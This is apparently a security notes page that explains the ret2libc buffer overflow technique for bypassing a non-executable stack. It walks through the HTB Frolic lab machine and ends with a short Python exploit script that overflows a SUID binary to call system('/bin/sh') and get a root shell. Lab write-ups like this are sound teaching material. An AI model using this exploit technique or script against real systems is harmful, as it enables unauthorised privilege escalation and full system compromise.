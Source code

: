 # Ret2Libc

Ret2Libc is a type of buffer overflow that would basically bypass a non-executable stack. This attack does not require any shellcode at all, but rather some specific addresses and hopping throughout the program. Ret2libc **bypasses DEP security features**.

Compared to the OSCP buffer overflow, where we simply use `jmp esp` to go to the top of the stack and then execute shellcode, this would control the EIP to jump to the library loaded whent the binary runs.

## How it Works

When we run a binary that uses functions from a library, these libraries are **loaded into the program's virtual space**. For example, the standard C library shared object located at `/lib/i386-linux-gnu/libc-*.so` is loaded for Linux, and it's the `ntdll.dll` file loaded for Windows.&#x20;

To gain RCE, we would need to find the `system()` function, which lives in the `libc` library. The EIP that we gain control of woulud then be used to _jump_ to this function by overflowing it with its return address. After moving to this function, we would need to **execute shell commands passed to this function**. For most cases, the command for RCE is `/bin/sh`.&#x20;

Basically, we would force a program to call `system("/bin/sh")` through manipulation of the EIP. Here's a visual representation of how it works:

<figure><img src="../.gitbook/assets/image (89) (2) (2).png" alt=""><figcaption></figcaption></figure>

In general:

1. EIP has been overflown to have the address of `system()` in `libc`.
2. Right after, the address of `exit()` is included, which also is within `libc`. The reason we need this is because once `system()` returns, the program jumps to `exit()`, which would allow for the vulnerable program to exit and drop us in our shell.
3. Then, a pointer with the address of `/bin/sh` is present, which is the argument we are passing to the `system()` command.

So we need to find 3 things for this attack:

1. Address of `system()`
2. Address of `exit()`
3. Address of `/bin/sh`.

All of which can be found within libc. All of this is done through analyzing the `libc` file that is within a program, and some prior enumeration as to which library is being loaded needs to be done. The locating of the offset stays the same, using `pattern_create.rb` and `pattern_offset.rb` in most cases.

## Example

This is an example of a ret2libc attack from HTB Frolic, which contains this exploit as part of its privilege escalation.

Firstly, we would find a binary named `rop` that is left behind for us, and it has the SUID binary set, meaning that when we run it, we are running it as the `root` user. We can download a copy back to our machine for further testing (either using netcat or base64 to do so).

<figure><img src="../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>

### Enumeration and Offset

First, we need to use `checksec` on the binary to see what we can and cannot do:

<figure><img src="../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

Breaking down the output, we notice that ASLR is disabled, RELRO is partial (meaning we have some space for writing code) and most importantly, NX is enabled. The stack is non executable, meaning that shellcode cannot be injected here.

Then, we can run the binary and see what it does. I used `ltrace` to enumerate what library calls and functions are being used.

<figure><img src="../.gitbook/assets/image (95) (3).png" alt=""><figcaption></figcaption></figure>

So first, we notice that the program takes **an unsanitised input from the user.** The 'Hello!' portion is user-supplied, and then it uses `strcpy`, which is a dangerous function vulnerable to BOF since it does not check for the length of input, and copes it to another place in memory.

So we now we know the vulnerable parameter is probably the `main()` function's `argv[1]` call. We can generate an offset using `pattern_create.rb` of length 100 first, and then run the program in `gdb` to see how it responds to our payload.

<figure><img src="../.gitbook/assets/image (27) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can use `pattern_offset.rb` to find the offset.

<figure><img src="../.gitbook/assets/image (87) (3).png" alt=""><figcaption></figcaption></figure>

### Finding Addresses

Now, within the **Frolic machine**, we would need to find the libraries it has. It has to be the machine itself because we want the RCE to work there to give us a root shell. We can use `ldd` to find the **address of which the libc.so file is loaded**.

<figure><img src="../.gitbook/assets/image (1) (6) (2).png" alt=""><figcaption></figcaption></figure>

So this binary loads the `libc.so.6` file in virtual memory. The base address is at `0xb7e19000`, and all other addresses we find are **offsets**, meaning we have to **add the addresses together** to find the specific address it is loaded at.

I first found the `/bin/sh` address using `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`

<figure><img src="../.gitbook/assets/image (6) (6) (1).png" alt=""><figcaption></figcaption></figure>

The offset is `0x0015ba0b`, and when added to the base address found earlier, we would get `0xb7f74a0b`. So `/bin/sh` is there.

Then, we need to find the `system()` function. I did so using `objdump` .&#x20;

<figure><img src="../.gitbook/assets/image (13) (2) (2).png" alt=""><figcaption></figcaption></figure>

Adding the offset, we would get `0xb7e53da0`. Lastly, we need `exit()` , which is found using the same manner.

<figure><img src="../.gitbook/assets/image (28) (2) (2).png" alt=""><figcaption></figcaption></figure>

`0xb7e479d0` is where `exit()` lives.&#x20;

### Exploit

Now that we have found all of this, we just need to put it together. Here's my final exploit script, using python `struct` to do so. Note that there are more automated ways of exploiting this, using `pwntools` or using online websites to find the addresses directly through finding the specific Linux version the machine is using or exact `libc` file being used.

Here's the final script:

```python
#!/usr/bin/python2

import struct  
# addresses from Frolic / Kali if testing locally
system_address = struct.pack("<I", 0xb7e53da0)
exit_address = struct.pack("<I", 0xb7e479d0)
string_address = struct.pack("<I", 0xb7f74a0b)

# fill the buffer with junk:
buffer = "A" * 52

# place the arguments for the call to system() on the stack, following the order defined by the x86 calling convention:
buffer += system_address
buffer += exit_address
buffer += string_address

# finally feed the program with the malicious payload
print buffer
```

Now, we just need to feed the output from this script into `rop`. This would spawn a root shell for us and we can finish the machine.

<figure><img src="../.gitbook/assets/image (4) (6) (1).png" alt=""><figcaption></figcaption></figure>

